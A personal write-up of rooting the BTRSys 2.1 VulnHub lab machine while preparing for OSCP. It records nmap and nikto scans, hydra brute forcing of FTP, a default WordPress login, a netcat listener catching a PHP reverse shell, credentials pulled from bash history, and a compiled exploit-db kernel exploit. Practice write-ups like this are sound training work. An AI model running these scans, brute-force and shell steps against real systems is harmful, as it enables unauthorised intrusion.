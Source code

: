 +++
title = "BTRSys 2.1"
date = 2019-02-03
[taxonomies]
tags = ["vulnhub"]
+++

`Prior to studying OSCP`{:.info}

1. Used `zenmap` GUI to scan 192.168.225.0/24 range.

	```bash
	nmap -T4 -A -v 192.168.225.1-254
	```

	Intense TCP all ports:

	```bash
	nmap -p 1-65535 -T4 -A -v 192.168.225.134
	```

	Intense UDP all ports:

	```bash
	nmap -sS -sU -T4 -A -v 192.168.225.134
	```

	Slow comprehensive scan:

	```bash
	nmap -sS -sU -T4 -A -v -PE -PP -PS80,443 -PA3389 -PU40125 -PY -g 53 --script "default or (discovery and safe)" 192.168.225.134
	```

2. Started enumeration process:

	```bash
	dirb http://btrsys > dirb.log
	```

	```bash
	nikto -h 192.168.225.134 > nikto.log
	```

3. **Rabbit hole** - VSftpd 3.0.3 is being hosted on port 21. Possible entry point.

	After researching for a possible exploit, I ended up using hydra to brute force logins. Found a new account `ftp:ftp` but ended up no where useful.

4. **Rabbit hole** - OpenSSHd 7.2p2 is being used on port 22. Possible entry point.

	After researching for a possible exploit, I tried this user enumeration python script but it didn't make sense to me as the timing suppose to be longer than usual.

	[https://vuldb.com/?id.89622](https://vuldb.com/?id.89622)

5. Found an entry in `robots.txt` that contained a `wordpress` directory.

	`wp-admin` has default password set as `admin:admin`

6. **FAIL** - Attempted to try and LFI and RFI using the media upload tool. Media upload tool doesn't have proper permissions to write to uploads directory. Manual LFI doesn't work either.

7. Found an already edited style.css file for the default Wordpress theme containing code for php reverse shell.

	```
	Wordpress > Appearance > Themes > Editor
	```
	
	```bash
	nc -nvlp 4444
	```

	Executed the `style.css` file by entering the URL directory - [http://btrsys/wordpress/wp-content/themes/twentyfourteen/style.css](http://btrsys/wordpress/wp-content/themes/twentyfourteen/style.css)

8. Shell obtained and `whoami` shows `www-data`. Attempting to privesc.

9. ```bash
	python3 -c "import pty;pty.spawn('/bin/bash')"
	```

10. `python` is missing on this system so `linprivchecker.py` throws an error when trying to run using `python3`. Ran `linenum.sh` script instead.

	`root:rootpassword!` - mysql credentials found in `/var/www/.bash_history` and `wp-config.php`

11. I thought about trying to brute force the login ssh credentials for btrisk account but decided to try privesc using kernel exploit:

	[https://www.exploit-db.com/exploits/44298](https://www.exploit-db.com/exploits/44298)

	Couldn't compile the exploit on BTRSys because gcc is missing. Compiled the exploit on local machine, transferred to BTRSys, and executed the file.

	```bash
	gcc 42298.c
	```

	```bash
	chmod 777 a.out
	```

	```bash
	./a.out
	```

12. ROOTED!

### Today I learned

* Discovered that you can't run netdiscover on a tun0 interface. I had to use zenmap and figure out how to scan.

```bash
hydra -t 1 -C /usr/share/sparta/wordlists/ftp-default-userpass.txt -vV btrsys ftp
```

```bash
/usr/share/john/password.lst
```

```bash
/usr/share/wordlists/rockyou.txt
```

* This command copies the path of where the exploit file is located so you can cp it later:

```bash
searchsploit -p exploits/linux/local/44298.c
```

### Efficient commands

nmap TCP simple scan:

```bash
nmap -Pn -sS --stats-every 3m --max-retries 1 --max-scan-delay 20 --defeat-rst-ratelimit -T4 -p1-65535 -oN nmap-tcp-simple.log BTRsys
```

nmap TCP detailed scan:

```bash
nmap -nvv -Pn- -sSV -p 21,22,80 --version-intensity 9 -A -oN nmap-tcp-details.log BTRsys
```

nmap UDP scan:

```bash
nmap -Pn --top-ports 1000 -sU --stats-every 3m --max-retries 1 -T3 -oN nmap-udp.log BTRsys
```

### Improvement for next time

* When reading the results of the enumeration process, do the really easy ones first before driving into finding software exploits such as directory paths in `robots.txt`.

* Always navigate to a path that's writable (/tmp) once you get reverse shell.

* I have to figure out how to speed up the scanning process. I feel like I'm using a big gun to do such a simple job.

* Falling into rabbit holes too easily. I should scope out the difficulty of the exploit before diving into it. If it looks too complicated, it's too hard for the OSCP exam already I would think. Although, it's good practice to see how this stuff works. I'm not sure what exactly I'm reading but I should know when is a rabbit hole or not.

* I found out afterwards that gcc is installed on the machine but cannot be executed due to restricted permissions.